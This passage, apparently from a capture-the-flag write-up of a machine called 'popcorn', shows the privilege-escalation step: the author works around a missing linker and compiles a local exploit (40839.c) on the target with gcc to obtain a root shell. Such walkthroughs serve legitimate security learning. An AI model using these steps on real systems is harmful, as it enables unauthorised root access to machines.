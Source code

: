 But this generates a new error:

```
collect2: cannot find 'ld'
```

find this on the target and put it in a location GCC can find:

```bash
which ld
cp /usr/bin/ld /tmp/ld
chmod +x /tmp/ld
export PATH=$PATH:/tmp
gcc -pthread /tmp/40839.c -o /tmp/40839 -lcrypt -I/usr/lib/gcc/i486-linux-gnu/4.4/include/
```

After this, the exploit compiles and runs to give a `root` shell:

![root1](./popcorn/root1.png)

